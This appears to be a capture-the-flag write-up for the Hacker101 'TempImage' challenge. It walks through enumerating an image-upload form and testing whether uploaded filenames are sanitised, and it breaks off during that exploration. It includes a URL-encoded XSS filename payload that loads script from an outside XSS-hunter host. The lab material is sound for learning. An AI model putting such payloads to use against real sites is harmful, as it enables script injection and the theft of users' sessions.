 ```yaml
---
title: Hacker101 CTF TempImage
description: A write up for the TempImage [moderae] challenge
published: false
datePublished: 1610805690979
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - TempImage
  - security
thumbnailPhoto: /hackerone/hackerone.png
bannerPhoto: /hackerone/hackerone.png
canonicalUrl:
---
```


# TempImage _[moderate]_

This is my Write Up for the "TempImage" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to some sort of cloud storage application, on the main Page we get a really simple page:

```
https://ctf.hacker101.com/ctf/launch/12

>
<html>
	<head>
		<title>TempImage &mdash; Trial</title>
	</head>
	<body>
		<h1>TempImage</h1>
		<p><b>UNREGISTERED</b></p>
		<p><a href="upload.php">Upload image</a></p>
	</body>
</html>
```

It signifies that its an UNEGISTERED version of the app, thus working in trial mode.

## Enumeration
So lets start to explore the app and what it can do. We start by clicking the "Upload image" Button.
This leads us to a new page **/upload.php**, here we can select a file from our computer, and have a submit button to send the form.

The form will be sent to a **doUpload.php** file. Upon closer inspection we alos see that there is a hidden field "filename", which gets filled in by aJS snippet.

```
   <h1>Upload</h1>
		<form action="doUpload.php" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" id="file">
			<input type="hidden" name="filename" id="filename">
			<input type="submit" value="Upload">
		</form>
		<script>
			$(document).ready(function() {
				$('#file').change(function(e) {
					$('#filename').val(e.target.files[0].name)
				})
			})
	 </script>
```
So it seems this lil script extracts the `file.name` prop from the fileOpbject the user uploads to the input type="file".

Lets Try it out, It seems the file inpput allows any file to be chosen, lets try a 5mb .gif file.

```
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
```

OK, fair, maybe 5mb was a it large, but we know we're working with an nginx 1.14 server on Ubuntu.
So how about we try a smaller gif?

```
ERROR: Only PNG format supported in trial.
```
Okay, finally we know what the app expects from us, a PNG file. So we try jsut that.
The upload succeeds, thus redirecting us to a new url:
`/files/be9c26aaea9d9b5085c7f6eed0812745_uhhhh.png`

so it seems our files are uploaded to the `/files/` directory, what a suprise, the file stil contains our original filename, preceeded by some gibberish.

we should deffinetly try to exploit this, check wheter or not they sanitize our filename.

Lets try uploading a file named: `javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

We now get redirected to this url `http://35.190.155.168/d29c8e00db/files/9975e7e24fac21e8b877a6d08efe09c6_javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

and we get served this content:
```
Not Found
The requested URL /files/9975e7e24fac21e8b877a6d08efe09c6_javascript:eval('var a=document.createElement(\'script\');a.src=\'https:/Discover.xss.ht\';document.body.appendChild(a)').png was not found on this server.

Apache/2.4.7 (Ubuntu) Server at 127.0.0.1 Port 52736
```
so it seems there is potential there, we just need a more sophisticated payload to upload.

## Taking a step back

It's important not to get tunnelvision and only focus on your first finding, so lets take a step back and analyze the website using Burp Suite. Maybe we'll find something.
Lets analyze the upload URL first:

```
GET /d29c8e00db/upload.php HTTP/1.1
Host: 35.190.155.168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
This does not tell us that much, it seems the server could accep more than just PNG tho.

How about if we upload an image?

`POST /d29c8e00db/doUpload.php HTTP/1.1`

![image upload Request](/hackerone/tempimage/tempimage-hackerone101-burpSuite_fileupload.png "image upload Request")




